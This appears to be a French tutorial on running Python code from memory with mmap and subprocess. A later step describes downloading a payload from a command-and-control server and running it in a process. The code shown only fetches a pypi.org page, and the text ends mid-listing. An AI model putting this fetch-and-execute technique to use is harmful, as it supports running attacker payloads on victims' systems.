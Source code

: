 >JumpToMemory.py
```python
import mmap  
import os  
import time  
import subprocess  
  
def mmap_io(filename):  
    with open(filename, mode="r", encoding="utf8") as file_obj:  
        with mmap.mmap(file_obj.fileno(), length=0, access=mmap.ACCESS_READ) as mmap_obj:  
            pycode = mmap_obj.read()  
            print(pycode)  
            result = subprocess.run(['python', '-c', pycode], stdout=subprocess.PIPE)  
            print(result.stdout.decode())  
  
def sharing_with_mmap():  
    BUF = mmap.mmap(-1,          # create anonymous memory in ram  
                    length=100,  # 100 bytes  
                    access=mmap.ACCESS_WRITE)  
  
    pid = os.fork()  
    if pid == 0:  
        # Child process  
        BUF[0:100] = b"a" * 100  
    else:  
        time.sleep(2)  
        print(BUF[0:100])  
  
mmap_io('hello.py')  
```
>hello.py
```python
print('hello')
```
Voici le résultat 
```python
b"print('hello')"
hello
```


3. Maintenant, nous allons explorer comment jouer avec les droits en téléchargeant une charge depuis un serveur de commande et de contrôle (C&C) et en l'exécutant dans un processus. Tout d'abord, créez un fichier de script Python appelé "client.py". Ce fichier doit se connecter à un serveur de commande et de contrôle (C&C) et télécharger une charge à exécuter. Nous utiliserons la bibliothèque requests pour cela. Une fois que la charge est téléchargée, écrivez-la dans la mémoire partagée à l'aide de mmap. Enfin, utilisez subprocess.run() pour exécuter la charge dans un processus.

>client.py
```python
import subprocess  
import requests  
  
print("coucou")  
  
r = requests.get('https://pypi.org/project/requests/')  
print(r.status_code)  
print(r.headers['content-type'])
```
>JumpToMemory.py
```python
import mmap  
import os  
import time  
import subprocess  
  
def mmap_io(filename):  
```